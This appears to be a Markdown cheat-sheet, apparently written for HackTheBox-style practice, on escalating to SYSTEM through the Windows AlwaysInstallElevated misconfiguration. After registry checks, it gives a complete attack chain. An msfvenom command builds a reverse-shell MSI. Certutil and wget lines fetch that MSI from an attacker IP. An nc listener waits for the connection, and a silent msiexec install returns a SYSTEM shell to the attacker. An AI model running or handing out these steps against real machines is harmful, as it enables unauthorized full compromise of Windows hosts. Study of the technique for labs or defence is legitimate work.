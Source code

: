 

## 📖 What is `AlwaysInstallElevated`?

Windows has two registry keys that, when both set to `1`, allow **any user** to run `.msi` installer files **with SYSTEM privileges**.
Windows has these 2 keys:
```
HKCU\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
HKLM\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
If both are set to `1`, **any user can install MSI packages with SYSTEM privileges**.


#### **📍 Check if the system is vulnerable**

Run the following commands **on the target machine**:

> **reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated**
> 
> **reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated**

**Vulnerable** if both return:

`AlwaysInstallElevated REG_DWORD 0x1`

#### **📍 Step 1: Generate a malicious MSI payload**

On your **attacker machine (Kali/Parrot):**
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=445 -f msi > shell.msi
```

- `-p`: Payload type (`shell_reverse_tcp`)
- `LHOST`: Your attack machine’s IP (typically `tun0` in VPNs like HackTheBox)
- `LPORT`: The port you’ll listen on
- `-f msi`: Output format is an MSI installer

This creates a file `shell.msi` that will **connect back to you as SYSTEM** when installed.

#### **📍 Step 2: Transfer the MSI to the victim**

On the victim’s **PowerShell**:
```bash
# wget 
wget http://<YOUR-IP>/shell.msi -o shell.msi

# certutil
certutil -urlcache -split -f "http://10.17.68.184:8000/shell.msi" shell.msi
```

📍 Step 3: Install the MSI with SYSTEM privileges
on Attacker machine run 
```
rlwrap -f . -r nc -lvnp 445
```

on target machine run it
```bash
msiexec /quiet /qn /i C:\Temp\shell.msi
```

- `msiexec`: The Windows Installer program
- `/quiet /qn`: No user interface
- `/i`: Install the MSI

Since **AlwaysInstallElevated is enabled**, this **runs as SYSTEM** even from a low-privileged account.
